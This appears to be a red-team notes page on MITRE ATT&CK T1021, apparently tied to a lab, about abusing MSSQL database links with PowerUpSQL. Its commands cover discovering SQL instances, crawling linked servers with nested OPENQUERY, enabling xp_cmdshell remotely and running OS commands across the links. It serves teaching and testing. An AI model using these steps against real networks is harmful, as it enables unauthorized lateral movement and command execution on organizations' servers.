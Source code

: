 
# T1021 - Remote Services
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021)

## Table of Contents

- [TTP #1 - MSSQL Server Trust Abuse] (#)

### Attacks
* MSSQL Server Trust Abuse (PowerUpSQL)
	* Overview

* MS SQL servers are generally deployed in plenty of Windows domains
* SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles
* A database link allows a SQL Server to acess external data sources like other SQL Servers and OLE DB data sources
* In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures
* Database links work even across forest trusts

	* Requirements:
  - [PowerUpSQL] (https://github.com/NetSPI/PowerUpSQL)

* Discovery (SPN Scanning)
  - `Get-SQLInstanceDomain`
* Check Accessibility
  - `Get-SQLConnectionTestThreaded`
  - `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose`
* Gather Information
  - `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* Searching Database Links
  - Look for links to remote servers
    + `Get-SqlServerLink -Instance dcorp-mssql -Verbose`
    + or
    + `select * from master..sysservers`
* Enuemrating Database Links - Manually
  - `Openquery()` function can be used to run queries on a linked database
    + `select * from openquery("dcorp-sql1",'select * from master..sysservers')`
* Enumerating Database Links
  - `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose`
  - or
  - Openquery queries can be chained to access links within links (nested links)
    + `select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')`
* Executing Commands
  - On the target server, either xp_cmdshell should be already enabled; or
  - If rpcout is enabled (disabled by default), xp_cmdshell can be enabled using
    + `EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"`
  - `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"`
    + Can pipe into `ft` to make it more readable
  - or
  - From the initial SQL server, OS commands can be execute using nested link queries:
    + `select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')`
